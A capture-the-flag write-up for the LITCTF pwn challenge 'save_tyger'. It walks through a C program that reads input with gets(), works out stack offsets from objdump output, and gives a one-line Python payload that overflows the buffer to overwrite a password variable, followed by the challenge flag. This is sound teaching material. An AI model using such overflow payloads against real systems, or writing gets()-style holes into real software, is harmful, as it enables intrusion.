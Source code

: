 # pwn/save_tyger

## Challenge

Can you save our one and only Tyger?
<br>
Connect with `nc litctf.live 31786`

[save_tyger.zip](https://drive.google.com/uc?export=download&id=1ePTPwUBKcNLESM2ev1IZEb3kL4SeTcn1)

## Solution

We're given a C file (and the corresponding executable). Via the `nc` terminal command, we interact with a running instance of the program and have to exploit it somehow:
```c
#include <stdlib.h>
#include <stdio.h>

char flag[64];

int main(){
	long pass;
	char buf[32];
	pass = 0;
	printf("Oh no, someone stole our one and only Tyger! :noo:\n");
	printf("Would you help us save him?\n");
	gets(buf);
	if(pass == 0xabadaaab){
		printf("It worked!\n");
		FILE *f = fopen("flag.txt", "r");
		if(f == NULL){
			printf("Something went wrong. Please let Eggag know.\n");
			exit(1);
		}
		fgets(flag, 64, f);
		puts(flag);
	}
	else printf("WE NEED HIM BAAACK!\n");
}
```
This is a classic problem.

We need to somehow overwrite `pass`. Note the usage of `gets()` for input, which lets us write arbitrarily many characters, so we can overflow `buf` into `pass`. We now look in the executable (`objdump -d`) for where `buf` and `pass` are stored:
```
00000000000011c9 <main>:
    11c9:	f3 0f 1e fa          	endbr64 
    11cd:	55                   	push   %rbp
    11ce:	48 89 e5             	mov    %rsp,%rbp
    11d1:	48 83 ec 30          	sub    $0x30,%rsp
    11d5:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp) <- pass = 0
    11dc:	00 
    11dd:	48 8d 3d 24 0e 00 00 	lea    0xe24(%rip),%rdi        # 2008 <_IO_stdin_used+0x8>
    11e4:	e8 a7 fe ff ff       	callq  1090 <puts@plt>
    11e9:	48 8d 3d 4b 0e 00 00 	lea    0xe4b(%rip),%rdi        # 203b <_IO_stdin_used+0x3b>
    11f0:	e8 9b fe ff ff       	callq  1090 <puts@plt>
    11f5:	48 8d 45 d0          	lea    -0x30(%rbp),%rax <- so this must be buf
    11f9:	48 89 c7             	mov    %rax,%rdi <- argument to gets (buf)
    11fc:	b8 00 00 00 00       	mov    $0x0,%eax
    1201:	e8 aa fe ff ff       	callq  10b0 <gets@plt>
...
```
The assignment `pass = 0` is converted into a `movq` (**mov**e **q**uadword (64-bit)) instruction, copying the literal `$0x0` into address `-0x8(%rbp)`. For the call to `gets()`, note by calling conventions that the register `%rdi` stores the first argument. Its value was copied from `%rax`, which was stored the address (not the address's value) `-0x30(%rbp)` via `lea` (**l**oad **e**ffective **a**ddress).

`pass` is at stack frame (`%rbp`) minus `0x8`, while `buf` is at minus `0x30`.
That means they're a distance of `0x30 - 0x8 = `40 bytes apart,
so we need to send 40 junk characters, and then `ab aa ad ab` (little-endian).
We write code to produce the string, converting the hex representation of the bytes to chars:
```py
print("a"*40+"abaaadab".decode("hex"))
```
Pipe the output into the netcat command (`python script.py | nc ...` or `nc ... < output.txt`), and we get our flag.

## Flag

`LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}`
